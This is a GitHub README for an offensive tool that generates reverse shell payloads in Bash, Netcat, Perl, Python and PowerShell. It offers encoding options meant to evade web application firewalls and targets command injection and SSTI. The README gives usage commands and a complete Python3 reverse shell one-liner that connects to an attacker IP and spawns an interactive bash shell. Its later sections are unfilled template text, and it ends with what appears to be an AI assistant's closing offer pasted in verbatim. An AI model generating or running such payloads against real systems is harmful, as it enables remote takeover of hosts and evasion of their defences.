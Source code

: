 ### **What Is It?**
**Omni-Reverse-Payload-Generator** Is a versatile and powerful tool that enables security professionals to quickly generate reverse shell payloads offline using various programming languages and shells. What sets this tool apart is its ability to seamlessly integrate advanced encoding techniques directly within the generated output, ensuring the payloads are pre-encoded to effectively bypass security measures like Web Application Firewalls (WAFs) without the need for additional steps. 

### **Key Features**
- **Multiple Reverse Payload Generation**: Quickly generate payloads for various environments, including Bash, Netcat, Perl, Python, PowerShell, and MSSQL, ensuring compatibility with different target systems.
- **Environment Testing**: Generate commands to identify and test shell environments, such as PowerShell/CMD (Windows) and Bash/Sh (Unix/Linux), to verify which shell the target supports.
- **Advanced Encoding Options**: Utilize encoding techniques like URL encoding, Base64, and Internal Field Separator (IFS) manipulation to obfuscate payloads and bypass WAFs.
- **Customization and Flexibility**: Customize payloads with options to modify shell behavior, encoding, and injection methods tailored for specific vulnerabilities like SSTI and command injection.

### **Installation**
```bash
git clone https://github.com/loganpkinfosec/omni-reverse-payload-generator/
cd omni-reverse-payload-generator
chmod +x *
```

### **Usage**

```bash
# Basic Usage Format
python3 Omni-Payload-Generator.py <payload_type> <LHOST> <LPORT> [options]

# Example Commands
python3 Omni-Payload-Generator.py -ps 10.10.14.20 443       # Generate PowerShell reverse shell
python3 Omni-Payload-Generator.py -b 10.10.14.20 443 -e     # Generate Bash reverse shell with URL encoding
python3 Omni-Payload-Generator.py -y3 10.10.14.20 443 -ifs injection  # Generate Python 3 reverse shell with IFS manipulation for command injection
python3 Omni-Payload-Generator.py -y 10.10.14.20 443 -ifs ssti -e  # Python reverse shell for SSTI with URL encoding
```

### **Command Options/Swiches**
- `-b, --bash`: Generates a Bash reverse shell command.
- `-n, --netcat`: Generates a Netcat reverse shell command.
- `-p, --perl`: Generates a Perl reverse shell command.
- `-y, --python`: Generates a Python reverse shell command.
- `-y3, --python3`: Generates a Python 3 reverse shell command.
- `-ps, --powershell`: Generates a PowerShell reverse shell command in Base64.
- `-e, --urlencode`: URL encodes the generated reverse shell command.
- `-ifs, --use-ifs`: Uses IFS manipulation (`injection` or `ssti`) to replace spaces, enhancing payload delivery in specific scenarios.


**Example: Generating a Python3 Shell with IFS Manipulation**
```bash
Command: python3 Omni-Payload-Generator.py -y3 10.10.14.20 443 -ifs injection
Output: python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.20",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.run(["/bin/bash","-i"]);'
```

### **7. Screenshots or Diagrams**
Include screenshots of the tool in action or diagrams showing the flow of payload generation. Visual aids help users quickly grasp the tool's functionality.

### **8. Common Issues and Troubleshooting**
Add a section that covers common issues users might face and how to resolve them. Examples might include permission errors, encoding issues, or incorrect usage of flags.

### **9. Contribution Guidelines**
Encourage contributions from the community by outlining how others can contribute, report bugs, or suggest features.

### **10. License and Acknowledgments**
Clearly state the licensing of your tool and acknowledge any inspirations or dependencies.

---

**Enhancements Summary:**
- **Structuring**: The documentation is organized into sections, making it easy for users to navigate and find information quickly.
- **Clarity**: Detailed explanations for each command and flag, supplemented by example commands and outputs.
- **Visuals**: Including screenshots or diagrams can further clarify the tool’s usage.
- **Troubleshooting**: Providing a section for common problems will improve user experience and reduce confusion.

Would you like help creating screenshots, diagrams, or further refining any of these sections?
